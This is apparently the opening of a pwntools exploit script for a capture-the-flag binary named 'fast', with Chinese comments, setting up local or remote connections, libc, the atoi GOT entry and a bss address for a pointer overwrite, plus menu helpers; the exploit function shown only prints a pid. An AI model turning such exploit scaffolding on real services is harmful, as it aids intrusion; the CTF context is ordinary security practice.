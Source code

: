 ```python
from pwn import *
binary_file = './fast'
context.binary = binary_file

# switches

if len(sys.argv) == 1:
    DEBUG = 1
else:
    DEBUG = 0
# modify this
if DEBUG:
    io = process([binary_file])
else:
    io = remote(sys.argv[1], int(sys.argv[2]))

context(log_level='debug')

# define symbols and offsets here

elf = ELF(binary_file)
libc = ELF('./libc-2.23.so')                            # 远程
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')           # 本地
atoi_got = elf.got['atoi']
bss = 0x0000000000602098        # 为了对ptr指针进行覆盖


def create():
    io.recvuntil("Your choice : ")
    io.sendline("1")


def edit(myname, age, comment):
    io.recvuntil("Your choice : ")
    io.sendline("2")
    io.recvuntil("Name:\n")
    io.sendline(myname)
    io.recvuntil("Age:\n")
    io.sendline(age)
    io.recvuntil("Comment:\n")
    io.sendline(comment)


def erase():
    io.recvuntil("Your choice : ")
    io.sendline("3")


def show():
    io.recvuntil("Your choice : ")
    io.sendline("4")


def pwnexit():
    io.recvuntil("Your choice : ")
    io.sendline("5")


# define exploit function here
def pwn():

    # gdb
    print "pid: " + str(proc.pidof(io))
```